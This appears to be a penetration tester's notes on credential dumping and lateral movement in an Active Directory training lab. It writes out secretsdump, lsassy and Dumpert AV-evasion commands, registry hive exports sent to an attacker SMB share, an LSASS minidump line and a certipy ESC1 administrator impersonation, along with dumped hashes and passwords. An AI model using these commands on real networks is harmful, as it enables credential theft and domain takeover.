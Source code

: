# Lateral Movement

## Credential Dumping

### Remote

#### SAM, LSA, etc.

```sh
# jeor.mormont is local admin @ 10.10.10.22
secretsdump.py north.sevenkingdoms.local/jeor.mormont:'_L0ngCl@w_'@10.10.10.22
```
#### LSASS

- `lsassy`

```console
$ lsassy -d north.sevenkingdoms.local -u jeor.mormont -p '_L0ngCl@w_' 10.10.10.22
[+] 10.10.10.22 Authentication successful
[+] 10.10.10.22 Lsass dumped in C:\Windows\Temp\935V.csv (48100838 Bytes)
[+] 10.10.10.22 Lsass dump deleted
[+] 10.10.10.22 NORTH\CASTELBLACK$                      [NT] 974fe3fdf3249bea19684addb0acbb22 | [SHA1] 7d7770677aadc5e5794dba80b389bcac0713455e
[+] 10.10.10.22 north.sevenkingdoms.local\CASTELBLACK$  [PWD] A+LNQ[1eREMJjuvoe;LaxSNeD4,9#o8kh;]IT\)3F%1-:KGZjQ2CN\7M%(@VnOq:As%-9.!Zz64RT=cqXmD;2cxl]"_mc\vjm?;2`VvPA\%NwAeA95Xk--[a
[+] 10.10.10.22 NORTH\robb.stark                        [NT] 831486ac7f26860c9e2f51ac91e1a07a | [SHA1] 3bea28f1c440eed7be7d423cefebb50322ed7b6c
[+] 10.10.10.22 NORTH\sql_svc                           [NT] 84a5092f53390ea48d660be52b93b804 | [SHA1] 9fd961155e28b1c6f9b3859f32f4779ad6a06404
[+] 10.10.10.22 NORTH.SEVENKINGDOMS.LOCAL\sql_svc       [PWD] YouWillNotKerboroast1ngMeeeeee
[+] 10.10.10.22 NORTH.SEVENKINGDOMS.LOCAL\CASTELBLACK$  [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2024-01-17 16:13 (TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_1a8893f6.kirbi)
[+] 10.10.10.22 NORTH.SEVENKINGDOMS.LOCAL\robb.stark    [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2024-01-17 16:16 (TGT_NORTH.SEVENKINGDOMS.LOCAL_robb.stark_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_d02dac29.kirbi)
[+] 10.10.10.22 NORTH.SEVENKINGDOMS.LOCAL\robb.stark    [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2024-01-17 16:16 (TGT_NORTH.SEVENKINGDOMS.LOCAL_robb.stark_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_d7206564.kirbi)
[+] 10.10.10.22 NORTH.SEVENKINGDOMS.LOCAL\CASTELBLACK$  [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2024-01-17 16:13 (TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_ea0ce89c.kirbi)
[+] 10.10.10.22 NORTH.SEVENKINGDOMS.LOCAL\CASTELBLACK$  [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2024-01-17 16:13 (TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_5ebf9286.kirbi)
[+] 10.10.10.22 13 Kerberos tickets written to /home/kali/.config/lsassy/tickets
[+] 10.10.10.22 7 masterkeys saved to /home/kali/.config/lsassy/masterkeys.txt
```

- `lsassy` w/ [dumpert](https://github.com/outflanknl/Dumpert) module (sort of bypass AV)

```sh
lsassy -d north.sevenkingdoms.local -u jeor.mormont -p '_L0ngCl@w_' 10.10.10.22 -m dumpertdll -O dumpertdll_path=/workspace/Outflank-Dumpert-DLL.dll
```

### Local

#### SAM (Security Account Manager)

- `SAM` database located at `C:\Windows\System32\config\SAM` and `HKLM\SAM`
- `SYSTEM` (required for decrypting `SAM` ) located at `C:\Windows\System32\config\SYSTEM` and `HKLM\SYSTEM`

```sh
smbserver.py -smb2support share .
reg.py north.sevenkingdoms.local/jeor.mormont:'_L0ngCl@w_'@10.10.10.22 save -keyName 'HKLM\SAM' -o '\\10.10.10.200\share'
reg.py north.sevenkingdoms.local/jeor.mormont:'_L0ngCl@w_'@10.10.10.22 save -keyName 'HKLM\SYSTEM' -o '\\10.10.10.200\share'
secretsdump.py -sam SAM.save -system SYSTEM.save LOCAL
```

The NTLM hashes could be used to perform pass-the-hash to move laterally

#### LSA (Local Security Authority) Secrets & Cached Domain Logon

Stored at `C:\Windows\System32\config\SECURITY` and `HKLM\SECURITY`

```sh
smbserver.py -smb2support share .
reg.py north.sevenkingdoms.local/jeor.mormont:'_L0ngCl@w_'@10.10.10.22 save -keyName 'HKLM\SECURITY' -o '\\10.10.10.200\share'
reg.py north.sevenkingdoms.local/jeor.mormont:'_L0ngCl@w_'@10.10.10.22 save -keyName 'HKLM\SYSTEM' -o '\\10.10.10.200\share'
secretsdump.py -security SECURITY.save -system SYSTEM.save LOCAL
```

> [!IMPORTANT]
> The cached domain logon hash `DCC2` is harder to crack and not usable for pass-the-hash

#### LSASSY

- by [@icyguider](https://youtu.be/Bg0GLaT_MMc?si=-edFD9pMAKDz-O4l)
    - create dump file of `lsass.exe` via task manager (`Details` tab) through RDP (need GUI session), then transfer the `.dmp` file and parse with `pypykatz`
    - `Out-Minidump` from `PowerSploit` (only requires CLI session), then dump with `pypykatz`
        ```ps1
        Get-Process lsass | Out-Minidump
        ```
    - `https://github.com/slyd0g/C-Sharp-Out-Minidump` C# parser
    - `https://github.com/icyguider/DumpNParse`

### Mimikatz

- Invoke-Mimikatz from `nishang`
- SharpKatz
- BetterSafetyKatz

## Lateral Movement With Impacket

### OPSEC Consideration

- <https://www.synacktiv.com/publications/traces-of-windows-remote-command-execution.html>
- <https://neil-fox.github.io/Impacket-usage-&-detection/>
- <https://mayfly277.github.io/posts/GOADv2-pwning-part9/#lateral-move-with-impacket>

## Over Pass-The-Hash

use NTLM hash to request TGT then use TGT to get interactive session

## Certificate

```sh
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC1 -ca ESSOS-CA -upn administrator@essos.local
```

## Further Reading

- <https://en.hackndo.com/remote-lsass-dump-passwords/>
